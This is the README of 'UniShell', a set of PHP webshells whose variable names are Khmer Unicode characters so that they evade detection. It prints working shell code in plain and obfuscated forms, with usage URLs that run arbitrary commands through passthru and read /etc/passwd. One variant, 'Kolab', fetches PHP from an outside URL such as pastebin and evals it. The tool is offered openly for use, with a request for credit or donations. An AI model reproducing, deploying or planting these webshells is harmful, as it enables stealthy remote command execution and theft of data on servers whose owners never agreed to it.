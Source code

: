 # UniShell
Unishell is a family of php webshells that based on nano shell (https://github.com/s0md3v/nano) which are using khmer unicode characters (ក, ខ, គ) and "yak" objuscation to be extremely stealthy and silently.

### None-Obfuscate
1. Soriya

`<?$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]);?>`

### Option
`ត` = Any;
`ល` = Password
`ម` = Function
`ប` = Command

### Usage

`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command`

For example we want to show the /etc/passwd in the system so we use:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=cat /etc/passwd`

### Screenshot-1
![handler](https://i.imgur.com/9fBhdpm.png)

2. Kolab

`<?$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); eval('?>'.file_get_contents($ា[ដ]));?>`

### Option
`ត` = Any;
`ល` = Password
`ម` = Function
`ប` = Command
`ដ` = Url

### Usage

`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command&ដ=url`

For example we want to show and use the PHP Web Shell from another url, so it will be:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=uname -a&ដ=https://pastebin.com/raw/JfLvh0MG`

### Screenshot-2

![handler](https://i.imgur.com/kLo23hE.png)

### Screenshot-3

![handler](https://i.imgur.com/WKmeVP1.png)

### Obfuscated
In this code below i used yak to obfuscated it.

1. Soriya
`<?php goto JFDwF; NnbkH: $gOzsO[ល] == ធិ៤០៤ & $gOzsO[ម]($gOzsO[ប]); goto ymB7H; B3hLL: if (!($gOzsO[ត] != null)) { goto y8I95; } goto NnbkH; JFDwF: $gOzsO = $_GET; goto B3hLL; ymB7H: y8I95: ?>`

2. Kolab
`<?php goto N6Ag4; KMKUH: $I9NO2[ល] == ធិ៤០៤ & $I9NO2[ម]($I9NO2[ប]); goto cuHHG; N6Ag4: $I9NO2 = $_GET; goto clZU6; clZU6: if (!($I9NO2[ត] != null)) { goto P0yeE; } goto KMKUH; cuHHG: P0yeE: goto hYsr_; hYsr_: eval("\x3f\x3e" . file_get_contents($I9NO2[ដ])); ?>`

### License
If you want to use or modify it, just give me a credit or some donation. xD
